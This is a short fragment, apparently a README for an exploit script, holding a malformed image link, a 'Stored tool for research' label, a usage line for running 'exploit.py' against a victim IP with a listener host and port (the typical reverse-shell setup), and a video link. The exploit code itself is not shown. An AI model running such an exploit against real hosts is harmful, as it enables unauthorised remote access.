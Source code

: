 Stored tool for research
#exam
#python exploit.py ip_victim LHOST LPORT
video :https://www.youtube.com/watch?v=xvQx4QSqe0I
